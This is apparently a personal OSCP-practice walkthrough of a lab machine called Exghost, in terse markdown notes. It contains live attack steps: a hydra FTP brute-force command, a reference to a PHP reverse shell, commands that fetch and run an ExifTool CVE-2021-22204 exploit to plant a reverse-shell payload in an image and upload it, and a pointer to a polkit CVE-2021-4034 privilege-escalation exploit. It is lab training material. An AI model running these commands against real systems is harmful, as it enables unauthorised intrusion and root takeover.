

# ExGhost Walkthrough
Name: Exghost
Date:  04/09/2022
Difficulty:  Easy
Goals:  OSCP Prep 3/5 machines a day testing (can use walkthrough)
Learnt: 
- This wordlist for ftp default creds `/usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt`
- Importance of manual PrivEnum
- No compiler no worries go python3 exploit
- 



Reupload after failure with markdown image sizing
`
## Recon

Thought my recon was good.. but ended up adding this to my hydra cheatsheet. Close the walkthrough because that seemed like a bit of a slap in the face.

```bash
hydra -L users.txt -P /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt $ip ftp
```


Got the backup file, `file backup` outputs that it is a pcap filem open wireshark 


Post the Pentest Monkey PHP reverse shell!


## Exploit && Foothold
Can back to finish this walkthrough; there is a [remote code execution](https://github.com/AssassinUKG/CVE-2021-22204) for EXifTool 12.23 
```bash
wget https://raw.githubusercontent.com/AssassinUKG/CVE-2021-22204/main/CVE-2021-22204.sh
chmod +x CVE-2021-22204.sh
bash CVE-2021-22204.sh "reverseme $ip 80" kali.jpg
curl -F myFile=@kali.jpg http://192.168.141.183/exiftest.php
```


## PrivEsc


LinEnum does not check expoitable apts, manually:
```bash
apt list --upgradeable
```

I started work on a script to searchsploit the a list of vulnerable apts, but I need to either make something workable with json as the output for bash weird even with the `--colour` flag...away polkit-1 is vulnerable to [CVE-2021-4034](https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py). Because this Ubuntu box does not have gcc this is a python3 exploit.

